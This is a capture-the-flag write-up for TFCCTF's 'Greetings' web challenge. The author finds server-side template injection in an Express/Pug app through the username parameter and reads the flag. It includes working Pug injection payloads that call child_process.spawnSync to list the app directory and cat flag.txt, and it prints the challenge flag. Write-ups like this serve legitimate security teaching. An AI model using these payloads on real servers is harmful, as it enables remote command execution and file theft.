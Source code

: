 # GREETINGS

![](../images/greetings-part-1.png)

I start the instance, and click on the link generated by the instance, which takes me to this website:

![](../images/greetings-part-2.png)

I try to enter nothing, but I get a popup that tells me to enter something, so I enter my name as "a", which results in:

![](../images/greetings-part-3.png)

I then look at the URL at the top of the page:

```txt
http://challs.tfcctf.com:30691/result?username=a
```

I wondered what would happen if I deleted the `?username` filed from the URL, so, I changed the URL to:

```txt
http://challs.tfcctf.com:30691/result
```

Which resulted in:

![](../images/greetings-part-4.png)

Interesting, as I wasn’t allowed to leave the username field blank in the welcome screen. Anyway, I open BurpSuite, and while analyzing the requests, I notice in one of the respones:

![](../images/greetings-part-5.png)

Express is written in Javascript, therefore to exploit any vulnerability present on the website, I must use Javascript exploits. I began by attempting a Javascript SSTI attack, entering:

![](../images/greetings-part-6.png)

If the website gives me an error after executing this, it is vulnerable to SSTI, as if it wasn't vulnerable to SSTI, it wouldn't give an error. I then execute my input, which results in:

![](../images/greetings-part-7.png)

The website is vulnerable. Looking at the text of the error:

```txt
Syntax Error: Unexpected token
    at makeError (/usr/src/app/node_modules/pug-error/lib/index.js:34:15)
    at Lexer.error (/usr/src/app/node_modules/pug-lexer/index.js:62:15)
    at Lexer.assertExpression (/usr/src/app/node_modules/pug-lexer/index.js:96:12)
    at Lexer.addText (/usr/src/app/node_modules/pug-lexer/index.js:627:12)
    at Lexer.text (/usr/src/app/node_modules/pug-lexer/index.js:653:12)
    at Lexer.callLexerFunction (/usr/src/app/node_modules/pug-lexer/index.js:1647:23)
    at Lexer.advance (/usr/src/app/node_modules/pug-lexer/index.js:1689:12)
    at Lexer.callLexerFunction (/usr/src/app/node_modules/pug-lexer/index.js:1647:23)
    at Lexer.getTokens (/usr/src/app/node_modules/pug-lexer/index.js:1706:12)
    at lex (/usr/src/app/node_modules/pug-lexer/index.js:12:42)
```

The website seems to be stored in the `/usr/src/app/` directory of the server. I then type:

```txt
 #{process.mainModule.require('child_process').spawnSync('ls', ['/usr/src/app/']).stdout}
```

This command forces the entry point of the server (`process.mainModule`) Which results in:

![](../images/greetings-part-9.png)

I then type:

```txt
#{process.mainModule.require('child_process').spawnSync('cat', ['/usr/src/app/flag.txt']).stdout}
```

Which results in:

![](../images/greetings-part-10.png)

I then submit `TFCCTF{a6afc419a8d18207ca9435a38cb64f42fef108ad2b24c55321be197b767f0409}` and solve the challenge.










